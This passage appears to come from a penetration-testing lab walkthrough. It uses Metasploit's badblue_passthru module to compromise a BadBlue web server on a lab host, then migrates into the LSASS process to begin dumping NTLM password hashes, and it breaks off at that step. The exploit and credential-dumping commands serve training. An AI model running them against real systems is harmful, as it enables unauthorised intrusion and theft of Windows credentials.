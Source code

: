 #### 2. Exploiting the Target Using Metasploit

We use Metasploit to exploit a vulnerable BadBlue web server on the target machine:

```bash
msfconsole
```

- **Explanation**: Launch Metasploit, a penetration testing framework.

We search for exploits related to **BadBlue**, a vulnerable HTTP server:

```bash
search Badblue
```

Now, we use the `badblue_passthru` exploit module:

```bash
use exploit/windows/http/badblue_passthru
```

Set the target machine’s address:

```bash
set rhosts demo.ine.local
```

Run the exploit:

```bash
run
```

Once the exploit is successful, we check basic system information:

```bash
sysinfo
getuid
getprivs
```

- **Explanation**: `sysinfo` shows basic system details like OS version, `getuid` reveals the current user, and `getprivs` lists the privileges our session has on the system.

---

#### 3. Dumping NTLM Hashes

To extract NTLM hashes, we need to access the LSASS (Local Security Authority Subsystem Service) process. First, we list the process ID for LSASS:

```bash
pgrep lsass
```

Now, we migrate our session to the LSASS process to dump hashes. This process is crucial because LSASS stores authentication credentials in memory:

```bash
migrate 708
```
